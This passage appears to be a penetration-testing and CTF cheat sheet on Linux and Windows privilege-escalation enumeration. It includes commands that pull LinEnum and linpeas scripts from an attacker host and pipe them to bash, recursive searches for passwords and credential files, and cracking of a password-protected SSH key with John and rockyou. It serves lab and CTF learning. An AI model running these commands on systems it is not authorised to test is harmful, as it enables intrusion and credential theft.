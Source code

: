 - First we need to git a copy to our local Kali linux machine: `git clone https://github.com/rebootuser/LinEnum.git`
- Next we can serve it up in the python simple web server:

  ```shell
  root@kali:~test# cd LinEnum/
  root@kali:~test/LinEnum# ls
  root@kali:~test/LinEnum# python -m SimpleHTTPServer 80
  Serving HTTP on 0.0.0.0 port 80 ...
  ```
- And now on our remote Linux machine we can pull down the script and pipe it directly to Bash: `www-data@vulnerable:/var/www$ curl 10.10.10.10/LinEnum.sh | bash`
- And the enumeration script should run on the remote machine.

#### CTF Machine Tactics

Often it is easy to identify when a machine was created by the date / time of file edits. We can create a list of all the files with a modify time in that timeframe with the following command: `find -L /  -type f -newermt 2019-08-24 ! -newermt 2019-08-27 2>&1 > /tmp/foundfiles.txt`
- This has helped me to find interesting files on a few different CTF machines. Recursively searching for passwords is also a handy technique:
  `grep -ri "passw" .`
- Wget Pipe a remote URL directory to Bash (linpeas):
  `wget -q -O - "http://10.10.10.10/linpeas.sh" | bash`
- Curl Pipe a remote URL directly to Bash (linpeas):
  `curl -sSk "http://10.10.10.10/linpeas.sh" | bash`

#### Using SSH Keys

Often, we are provided with password protected SSH keys on CTF boxes. It it helpful to be able to quicky crack and add these to your private keys.
- First we need to convert the ssh key using John:
  `kali@kali:~/.ssh$ /usr/share/john/ssh2john.py ./id_rsa > ./id_rsa_john...`
- Next we will need to use that format to crack the password:
  `/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt ./id_rsa_john`
- John should output a password for the private key.


### Windows OS Enumeration

_NOTE_ There are many executables that could provide privledge escalation if they are being run by a privledged user, most can be found on the incredible LOLBAS project: <https://lolbas-project.github.io/>

- `net config Workstation`
- `systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`
- `hostname`
- `net users`
- `net user <username>`
- `net config Workstation`
- `ipconfig /all`
- `route print`
- `arp -A`
- `netstat -ano`
- `netsh firewall show state`
- `netsh firewall show config`
- `schtasks /query /fo LIST /v`
- `tasklist /SVC`
- `net start`
- `DRIVERQUERY`
- `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`
- `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`
- `dir /s *pass* == *cred* == *vnc* == *.config*`
- `findstr /si password *.xml*.ini *.txt`
- `reg query HKLM /f password /t REG_SZ /s`
- `reg query HKCU /f password /t REG_SZ /s`